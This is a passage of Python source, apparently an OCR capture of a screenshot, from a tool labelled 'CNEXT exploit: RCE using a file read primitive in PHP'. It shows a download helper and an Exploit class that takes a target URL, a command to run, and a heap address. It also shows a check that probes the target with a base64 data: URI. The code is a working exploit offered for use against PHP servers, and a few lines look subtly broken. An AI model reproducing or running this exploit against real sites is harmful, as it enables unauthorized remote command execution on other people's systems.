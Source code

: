~~~ python
        file_path = self.send(path).json()['response']
       
        if 'File type' in file_path:
            print(file_path)
            return b''
       
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""
    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
       
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
           
        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
       
        result = safe_download(path)
       
        if len(set(result).intersection(set(text))) == 0:
            msg_failure("Remote.download did not return the test string")
~~~